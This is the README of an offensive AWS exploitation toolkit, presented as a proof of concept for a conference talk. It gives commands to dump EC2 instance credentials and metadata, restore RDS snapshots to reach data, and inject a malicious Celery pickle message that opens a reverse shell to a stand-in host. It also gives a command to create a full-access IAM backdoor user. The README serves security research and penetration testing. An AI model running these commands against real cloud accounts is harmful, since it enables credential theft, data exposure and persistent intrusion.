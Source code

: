 Nimbostratus
============

Tools for fingerprinting and exploiting Amazon cloud infrastructures. These tools are a PoC
which I developed for my "Pivoting in Amazon clouds" talk, developed using the great 
[boto](https://github.com/boto/boto) library for accessing Amazon's API.

Feel free to report bugs, fork and send pull-requests. You can also drop me a line at
[@w3af](https://twitter.com/w3af).

Installation
============

```bash
git clone git@github.com:andresriancho/nimbostratus.git
cd nimbostratus
pip install -r requirements.txt
```


Usage
=====

Providing AWS credentials
-------------------------

Some `nimbostratus` sub-commands require you to provide AWS credentials. They are
provided using the following command line arguments:

 * `--access-key`
 * `--secret-key`
 * `--token` , which is only used when the credentials were extracted from the instance profile.

Dump credentials
----------------

Identify the credentials available in this host and prints them out to the console.
This is usually the first command to run after gaining access to an EC2 instance.

```console
$ nimbostratus dump-credentials
...
```

Once you've got the credentials from an EC2 instance you've exploited, you can continue to work from any other
host with internet access (remember: EC2 instances are in many cases spawned for a specific work and then terminated).

Dump permissions
----------------

This tool will dump all permissions for the provided credentials. This tool is commonly used
right after `dump-credentials` to know which permissions are available for you.

```console
$ nimbostratus dump-permissions --access-key=... --secret-key=...
...
```

Dump instance meta-data
-----------------------

All EC2 instances have [meta-data](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/AESDG-chapter-instancedata.html)
which is accessible via [http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/). This
tool will extract all the important information from the metadata and show it to you.

Keep in mind that each EC2 instance has his own `http://169.254.169.254/` meta-data
provider and running this command on different instances will yield different results.

```console
$ nimbostratus dump-ec2-metadata
...
```

Create DB snapshot
------------------

In some cases you've got Amazon credentials which allow you to access the [RDS](http://aws.amazon.com/rds/) API but
don't have any access to the database itself (MySQL user). This tool allows you to access the information stored in
that database by creating a snapshot and restoring it.

```console
$ nimbostratus snapshot-rds --access-key=... --secret-key=... --password=changeme --rds-name==db_name
...
```

Inject raw Celery message
-------------------------

Celery warns developers about the [insecure pickle](http://docs.celeryproject.org/en/latest/userguide/security.html#serializers)
serialization method, but of course you'll find deployments like this in real life. This tool will check if the instance
where this tool is being run has access to SQS, if that SQS has a Celery queue, verify that the Queue is using pickle and
finally inject a raw message that will execute arbitrary commands when un-pickled.

```console
$ nimbostratus celery-pickle-exploit --access-key=... --secret-key=... --queue-name=celery \
                                     --region=ap-southeast-1 --reverse=1.2.3.4:4000
...
```

Create new user
---------------

If you've got credentials which allow you to create a new user using [IAM](http://aws.amazon.com/iam/) this tool will
create it (with permissions to access all Amazon resources) and return API key and secret.

```console
$ nimbostratus create-iam-user --access-key=... --secret-key=...
...
```



What's a `nimbostratus` anyways?
================================

[nimbostratus](http://en.wikipedia.org/wiki/Nimbostratus_cloud) is a type of cloud, if you ever started a project you know how hard it is to name it... so I just chose something that sounded "cool" and was "cloud-related".
